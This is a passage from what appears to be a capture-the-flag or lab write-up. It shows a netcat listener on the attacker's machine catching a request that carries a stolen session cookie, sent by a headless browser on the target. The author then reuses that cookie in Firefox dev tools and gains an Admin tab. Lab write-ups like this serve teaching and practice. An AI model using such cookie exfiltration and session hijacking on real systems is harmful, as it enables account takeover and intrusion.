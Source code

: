 
And then I get the request with the cookie on `nc`:



    root@kali# nc -lnvp 81
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::81
    Ncat: Listening on 0.0.0.0:81
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:46152.
    GET /?cookie=connect.sid=s%253Ab3c4cce0-cf60-11e9-84a9-cb2ef2ea7a59.ZKayGjSEn27vNWWhzADjAyFYV2tPHlaWeErLRJZQpsM HTTP/1.1
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,*
    Host: 10.10.14.30:81



I'll take that cookie and update mine in Firefox dev tools:

![](/img/1567635272348.png)

On page refresh, the page looks the same, but there's an Admin tab:
